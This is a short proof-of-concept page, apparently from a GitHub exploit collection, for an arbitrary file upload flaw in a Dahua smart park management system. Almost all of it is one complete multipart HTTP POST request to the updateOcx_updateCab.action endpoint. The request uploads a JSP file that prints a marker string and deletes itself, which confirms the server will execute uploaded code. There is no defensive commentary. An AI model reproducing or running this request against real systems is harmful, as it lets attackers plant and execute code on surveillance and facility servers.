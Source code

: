 # dahua_updateOcx_updateCab_fileupload

```
POST /portal/updateOcx_updateCab.action HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 429
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=9b1d729ed9954863bcbedbb523cec7fa

--9b1d729ed9954863bcbedbb523cec7fa
Content-Disposition: form-data; name="updateBean.loadCabFileName"

sAuyJk.jsp
--9b1d729ed9954863bcbedbb523cec7fa
Content-Disposition: form-data; name="updateBean.loadCab"; filename="sAuyJk.jsp"
Content-Type: text/plain

<% out.println(75471+90776+"tnMXedOsifiHeptP");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
--9b1d729ed9954863bcbedbb523cec7fa--
```
from: https://github.com/wy876/POC/blob/main/%E5%A4%A7%E5%8D%8E/%E5%A4%A7%E5%8D%8E%E6%99%BA%E6%85%A7%E5%9B%AD%E5%8C%BA%E7%B3%BB%E7%BB%9FupdateOcx_updateCab.action%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
